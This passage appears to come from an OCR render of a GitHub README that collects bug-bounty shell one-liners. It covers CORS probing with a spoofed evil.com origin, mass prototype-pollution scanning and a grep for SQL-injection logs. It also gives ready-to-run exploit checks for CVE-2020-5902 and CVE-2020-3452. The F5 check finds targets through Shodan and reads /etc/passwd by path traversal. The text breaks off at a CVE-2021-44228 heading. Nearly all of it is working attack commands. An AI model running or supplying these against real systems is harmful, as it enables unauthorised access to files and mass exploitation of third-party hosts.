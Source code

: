 ```
find -type f -name "log" -exec sh -c 'grep -q "Parameter" "{}" && echo "{}: SQLi"' \;
```

---

## CORS:

[](https://github.com/0xPugal/One-Liners#cors)

```
echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

---

## Prototype Pollution:

[](https://github.com/0xPugal/One-Liners#prototype-pollution)

```
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

---

## CVEs:

[](https://github.com/0xPugal/One-Liners#cves)

### CVE-2020-5902:

[](https://github.com/0xPugal/One-Liners#cve-2020-5902)

```
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452:

[](https://github.com/0xPugal/One-Liners#cve-2020-3452)

```
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### CVE-2021-44228:
